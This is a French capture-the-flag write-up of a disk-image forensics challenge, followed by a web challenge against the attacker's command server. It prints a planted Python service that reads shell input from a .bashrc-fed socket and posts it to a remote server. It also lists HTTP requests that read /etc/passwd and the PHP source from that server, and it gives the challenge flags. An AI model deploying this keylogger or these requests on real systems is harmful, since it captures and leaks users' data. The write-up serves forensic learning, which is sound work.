

# Haunted-server
## Flag 1:

### Description
```
One of our agents, Simon Letti, has been seeing some strange traffic coming from his server. He provided us with the attached disk image. NICC needs your help to find what is going on. We suspect that our enemy, RB, is somehow involved.
```

### Developer:
Noah Jacobson https://github.com/noahajac

### Hint:
RB was definitely involved. He sent us this message, but we don't know what it means. "T1546.004"

### Information:
Fichier: haunted-server.aff

### Solution

J'ai du rechercher ce qu'etait un `.aff`
```bash
file haunted-server.aff
haunted-server.aff: data
```

J'ai essayer les outils habituelle...

Humm binwalk sort vraiment beaucoup de chose (je ne l'ai meme pas laisser terminer)
```bash
binwalk haunted-server.aff 
[...]
37277876      0x238D0B4       Executable script, shebang: "/usr/bin/sh"
[...]
^c
```
Je cherche donc et en quelque lien

- https://cs.harvard.edu/malan/publications/aff.pdf
- https://filext.com/file-extension/AFF

```
AFFLIB (raw disk image) by Simson L. Garfinkel and Basis Technology
AFFLIB is a set of tools for implemening the Advanced Forensics Format (AFF), which is an open extensible format that stores raw disk images. It stores both forensic data and metadata. The format is used by forensic practitioners to store data collected from disk drives for forensic analysis and can be used with multiple forensic analysis tools. Advanced Forensics Format files have the AFF extension. This file format is classified as Disk Image. Related links: Currently Maintained Repository, AFF Details, Research Paper About AFF Format, AFF Format Specifications, Introduction of AFF Format
```
Humm ok plus de lib!

*** brb installing some tools ***

On va donc essayer de mounter cela 
```
affuse -o r haunted-server.aff /mnt/aff_image
```
Sa semble avoir fonctionner!
```bash
-r--r--r--  1 root root  10G Dec 31  1969 haunted-server.aff.raw
```

Humm c'est quoi ce fichier?
```
file haunted-server.aff.raw 
haunted-server.aff.raw: DOS/MBR boot sector
```
Voyons voir ces partitions

```bash
fdisk -l haunted-server.aff.raw 
Disk haunted-server.aff.raw: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x55084a9f

Device                  Boot   Start      End  Sectors Size Id Type
haunted-server.aff.raw1 *       2048  2099199  2097152   1G 83 Linux
haunted-server.aff.raw2      2099200 20971519 18872320   9G 8e Linux LVM
```
Haha lvm!

Je dois chercher un peu comment mount ceci mais ill semblerait qu'un peripherique loop sois ce que je recherche alors

```
# Voyons mes loop device
losetup -a

# Quel est le prochain disponible
losetup -f
/dev/loop0


losetup /dev/loop0 haunted-server.aff.raw

# Est-ce que cela a fonctionner
fdisk -l /dev/loop0

Disk /dev/loop0: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x55084a9f

Device       Boot   Start      End  Sectors Size Id Type
/dev/loop0p1 *       2048  2099199  2097152   1G 83 Linux
/dev/loop0p2      2099200 20971519 18872320   9G 8e Linux LVM
```

Nous allons quelque part!

Ici j'ai vraiment eu beaucoup de difficulter pour en arriver avec ceci: 

```bash
losetup -o $((2048 * 512)) /dev/loop1 haunted-server.aff.raw
mount /dev/loop1 /mnt/lvm_2
mount: /mnt/lvm_2: WARNING: source write-protected, mounted read-only.

# Je me rend compte que je n'ai pas mounter la parition LVM mais bien celle du boot
dr-xr-xr-x.  5 root root 4.0K Sep 27 10:40 .
drwxr-xr-x  15 root root 4.0K Oct 30 17:26 ..
-rw-r--r--.  1 root root 222K Sep 19 03:00 config-5.14.0-511.el9.x86_64
drwxr-xr-x.  3 root root   17 Sep 27 10:27 efi
drwx------.  5 root root   97 Oct  3 21:34 grub2
-rw-------.  1 root root 152M Sep 27 10:29 initramfs-0-rescue-1a30e7a727454ebc8ca366f371c363ed.img
-rw-------.  1 root root  37M Sep 27 10:31 initramfs-5.14.0-511.el9.x86_64.img
-rw-------.  1 root root  34M Sep 27 10:40 initramfs-5.14.0-511.el9.x86_64kdump.img
drwxr-xr-x.  3 root root   21 Sep 27 10:28 loader
lrwxrwxrwx.  1 root root   45 Sep 27 10:28 symvers-5.14.0-511.el9.x86_64.gz -> /lib/modules/5.14.0-511.el9.x86_64/symvers.gz
-rw-------.  1 root root 8.5M Sep 19 03:00 System.map-5.14.0-511.el9.x86_64
-rwxr-xr-x.  1 root root  14M Sep 27 10:29 vmlinuz-0-rescue-1a30e7a727454ebc8ca366f371c363ed
-rwxr-xr-x.  1 root root  14M Sep 19 03:00 vmlinuz-5.14.0-511.el9.x86_64
-rw-r--r--.  1 root root  160 Sep 19 02:59 .vmlinuz-5.14.0-511.el9.x86_64.hmac
```

Je dois donc recommancer pour la partition LVM

```bash
losetup -f -P aff_image/haunted-server.aff.raw
mount /dev/loop2 /mnt/lvm_3/
mount: /mnt/lvm_3: unknown filesystem type 'LVM2_member'.
       dmesg(1) may have more information after failed mount system call.
```
Donc en sachant que c'est un LVM

```bash
vgscan
  Found volume group "cs_simonserver" using metadata type lvm2

vgchange -ay
  2 logical volume(s) in volume group "cs_simonserver" now active

lvscan
  ACTIVE            '/dev/cs_simonserver/swap' [1.00 GiB] inherit
  ACTIVE            '/dev/cs_simonserver/root' [<8.00 GiB] inherit
```
Et la je cherche et je cherche et je cherche encore plus. Je suis sous `WSL`
et je n'arrive pas a trouver pourquoi je n'arrive pas a acceder au partition sous `/dev/mapper`

Finalement... https://manpages.ubuntu.com/manpages/noble/man8/dmsetup.8.html

```bash
dmsetup mknodes

brw-rw----  1 root disk 252,   1 Oct 30 17:44 cs_simonserver-root
brw-rw----  1 root disk 252,   0 Oct 30 17:44 cs_simonserver-swap

mount /dev/mapper/cs_simonserver-root /mnt/lvm_root
```
...
Durant le CTF j'ai pu naviguer dans le filesysten

Cependant durant le write-up....
```
mount /dev/mapper/cs_simonserver-root /mnt/lvm_root/
mount: /mnt/lvm_root: can't read superblock on /dev/mapper/cs_simonserver-root.
       dmesg(1) may have more information after failed mount system call.
```

Et je n'ai jamais reussie a remonter le filesystem. Heureusement j'ai la moitier du flag en backup et je peux quand meme expliquer le challenge.

J'ai regarder les log et j'ai vu des log d'un processus systemcontrol en python

```python
#!/usr/bin/env python3

from socketserver import UnixStreamServer, StreamRequestHandler, ThreadingMixIn
import os
import socket
import requests
import time
import base64

# RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==

sockFile = "/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock"
url = 'https://REDACTED/cgi-bin/614af1b65d944d989a457c21a39b4377.php'
try:
    os.remove(sockFile)
except OSError:
    pass

class Handler(StreamRequestHandler):
    def handle(self):
        while True:
            msg = self.rfile.readline()
            if msg:
                response = requests.post(url+'?op=upload', json={
                    'data': base64.b64encode(msg).decode('utf-8'),
                    'id': self.connection.fileno(),
                    'time': int(time.time()),
                    'hostname': socket.gethostname()
                })

                if response.headers.get('Content-Disposition'):
                    filename = response.headers['Content-Disposition'].split('filename=')[1].strip('"')
                    with open(filename, 'wb') as f:
                        f.write(response.content)
            else:
                return

class ThreadedUnixStreamServer(ThreadingMixIn, UnixStreamServer):
    pass

with ThreadedUnixStreamServer(sockFile, Handler) as server:
    os.chmod(sockFile, 0o0777);
    server.serve_forever()
```

Ce n'est peut-etre pas la copie exacte car je me suis quelque peu amuser avec!

Le 2e morceau de flag est en base64

`RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==`
`Flag Part 2: _h3r3_hahahaha}`

Je comprend parcontre que tout ce qui est ecris dans le unix socket `/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock`
est envoyer a un serveur distant. Sa semble un key logger je vais donc voir dans /home/simon/.bashrc et je vois une redirection dans le fameux unix socket avec la 1ere portion du flag en base64 egalement.

# Flag 2: haunted-c2

Ceci a ouvert une tuile WEB. J'ai donc passer la main a @`aulyxs` mon co-equipier.

Voici les requetes qu'il a envoyer au serveur trouver dans `systemcontrol` du premier challenge

```h
POST
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=upload HTTP/1.1
Host: REDACTED
Content-Type: appplication/json
Content-Length: 62

{"data":"L2V0Yy9wYXNzd2Q=","id":"1","time":"1","hostname":"1"}
```

`L2V0Yy9wYXNzd2Q= est /etc/passwd`


```bash
echo NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw | base64 -d
614af1b65d944d989a457c21a39b4377.php
```

```h
GET
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=view&file=NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw HTTP/1.1
Host: REDACTED
```

Nous avons donc le code



Simplement lui envoyer le "secret header" pour obtenir le flag!

```h
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=flag HTTP/1.1
Host: REDACTED
SECRET: 8662884dcb7e466e87809190e3f5ed9
```

Pour obtenir `NICC{0h_n0_y0u_c4ught_m3!}`

